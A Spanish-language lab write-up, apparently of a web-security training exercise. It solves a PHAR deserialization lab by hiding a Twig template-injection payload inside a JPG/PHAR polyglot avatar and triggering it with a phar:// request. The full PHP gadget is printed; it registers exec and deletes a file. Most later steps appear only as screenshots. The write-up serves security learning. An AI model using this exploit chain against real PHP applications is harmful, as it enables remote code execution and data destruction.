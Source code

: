 Una vez subido el archivo avatar con el payload PHAR incrustado, realizamos una petición a ‘**avatar.php**‘ modificando el parámetro ‘**avatar**‘ para usar el protocolo ‘**phar://**‘.

Esto hace que ‘**file_exists()**‘ evalúe el archivo como un objeto serializado, desencadenando la ejecución de nuestro payload Twig embebido, lo cual provoca que se ejecute el comando ‘**rm /home/carlos/morale.txt**‘, resolviendo así el laboratorio.

Solucion
entonces una vez acabo el payload que daria asi
(<?php
    class Blog {}
    class CustomTemplate {}
    $blog = new Blog();
    $blog->user = 'pwned';                             
    $blog->desc = '{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("rm /home/carlos/morale.txt")}}';
    $obj = new CustomTemplate();
    $obj->template_file_path = $blog;
?>)

entonces para que funcione este codigo nosotro vamos a utilizar una herramienta en github que se llama polyglot (https://github.com/kunte0/phar-jpg-polyglot)
Este repositorio es una herramienta para generar archivos JPG que también contienen código PHAR ejecutable. Está pensado para pruebas de seguridad y retos CTF, y demuestra cómo una imagen aparentemente inocente puede ocultar código PHP malicioso. Es una técnica avanzada usada en auditorías de seguridad para detectar vulnerabilidades en el manejo de archivos por parte de aplicaciones PHP.
![Pasted_image_20250827214636.png](Imagenes/Pasted_image_20250827214636.png)
entonces modificamos el codigo de esta imagen
![Pasted_image_20250827214948.png](Imagenes/Pasted_image_20250827214948.png)
tal que vamos a elminar el ejemplo y poner nuestro codigo de archivo malicioso
![Pasted_image_20250827215132.png](Imagenes/Pasted_image_20250827215132.png)
tal que queda asi
![Pasted_image_20250827215341.png](Imagenes/Pasted_image_20250827215341.png)
ejecutamos pasandole los archivos
![Pasted_image_20250827215511.png](Imagenes/Pasted_image_20250827215511.png)
podemos ver que ya nos realiza el objeto
subimos el archivo out.jpg
![Pasted_image_20250827215629.png](Imagenes/Pasted_image_20250827215629.png)
vemos que la imagen se sube
![Pasted_image_20250827215724.png](Imagenes/Pasted_image_20250827215724.png)
si nosotros inspeccionamos la imagen vemos que tiene la misma ruta
![Pasted_image_20250827215807.png](Imagenes/Pasted_image_20250827215807.png)
copiamos solo que en este caso vamos agregar phar y le damos a enter
![Pasted_image_20250827215906.png](Imagenes/Pasted_image_20250827215906.png)vemos que nos sale not found pero si vamos al home
![Pasted_image_20250827215958.png](Imagenes/Pasted_image_20250827215958.png)
![Pasted_image_20250827220025.png](Imagenes/Pasted_image_20250827220025.png)
